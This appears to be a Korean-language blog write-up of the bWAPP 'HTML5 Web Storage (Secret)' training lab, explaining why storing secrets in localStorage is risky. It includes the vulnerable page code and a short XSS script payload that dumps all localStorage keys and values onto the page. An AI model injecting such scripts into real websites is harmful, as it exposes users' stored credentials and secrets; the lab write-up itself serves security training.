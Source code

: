 ```yaml
---
layout: single
title: (bWAPP)HTML5 Web Storage (Secret)
categories: bwapp
tag: [spoofing,mitm, bwapp, bee box, OWASP TOP 10, OWASP]
toc: true
author_profile: false
---
```


# 취약점 설명
> HTML5 Web Storge는 웹 브라우저에서 데이터를 클라이언트 측에 저장할 수 있는 기술이다. 보통 Web Storage는 로컬 스토리지와 세션 스토리지라는 두 개의 메커니즘이 존재하며, 각각 영구적으로 저장되거나 세션 중에만 유지되는 데이터를 제공한다. 이 때 민감 혹은 중요 데이터를 Web Storage에 저장하는 것은 보안위협이 존재한다. 임의의 사용자가 쉽게 접근할 수 있기 때문이다.

![그림 1-1](/assets/image/bwapp/sensitive%20data%20exposure/HTML5%20Web%20Storage%20(Secret)/image.png)
- 로그인 정보와 secret 값들이 HTML5 Web Sotrage에 저장되어 있다고 한다.

```
if(typeof(Storage) !== "undefined")
{

    localStorage.login = "bee";
    localStorage.secret = "Any bugs?";

}
else
{

    alert("Sorry, your browser does not support web storage...");

}
```

- 우선 해당 페이지의 소스코드를 보게되면 현재 접속되어 있는 사용자에 대한 로그인 정보와 secret값이 고스란히 나오고 있다.
- 이 내용들을 기반으로 xss 취약점과 연계시키면 될 듯 하다.

```
<script>
    var str = "";
    for(var key in localStorage) {
        str += "<br>" + key + " = " + localStorage.getItem(key);
    }
    
    document.write(str);
</script>
```

- 위 코드를 통해 웹 브라우저의 로컬 스토리지에 저장된 데이터를 모두 읽어와 화면에 출력시킨다.

![그림 1-2](/assets/image/bwapp/sensitive%20data%20exposure/HTML5%20Web%20Storage%20(Secret)/image-1.png)
- xss를 통해 로컬 스토리지에 저장된 데이터가 화면에 출력되는 것을 볼 수 있다.